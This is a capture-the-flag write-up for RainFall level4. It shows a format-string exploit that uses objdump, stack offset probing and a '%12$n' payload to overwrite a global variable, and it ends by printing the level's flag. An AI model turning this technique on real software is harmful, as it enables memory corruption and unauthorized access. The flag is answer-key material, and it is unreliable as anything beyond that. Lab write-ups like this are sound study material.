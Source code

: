 # Level4

You can find the decomp [here]("./level4_decomp.c"), it's the same theory as the last level, find a variable address and write the correct value there which will be `16930116`.

## Exploit

### m address

We can find it using `objdump -t`:

```bash
08049810 g     O .bss   00000004              m
```

### Finding its offset

We can use the fact that the program uses `printf(buff)` as in the previous level:

```bash
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%x " * 12' | ./level4
�b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 8049810
```

Here we can see that the address of `m` is at the 12th offset

### Building our payload

Our payload will look something like this:

`[m address] + [number to write] [offset\n]`

## Solution

<details>
  <summary>Spoiler</summary>

  We will right the address of `m` followed by `16930116 - 4(size of the address)` characters. `%16930112x` will write 16930112 characters that will then be treated by `%12$n` as, write the number of bytes we wrote as a number in the 12th arguments which is our `m` address

  ```bash
  python -c 'print "\x10\x98\x04\x08" + "%16930112x%12$n"'
  ```

  This will result in a ton of spaces, followed by:

  ```bash
  b7ff26b0
    0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
  ```
</details>


## Flag

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a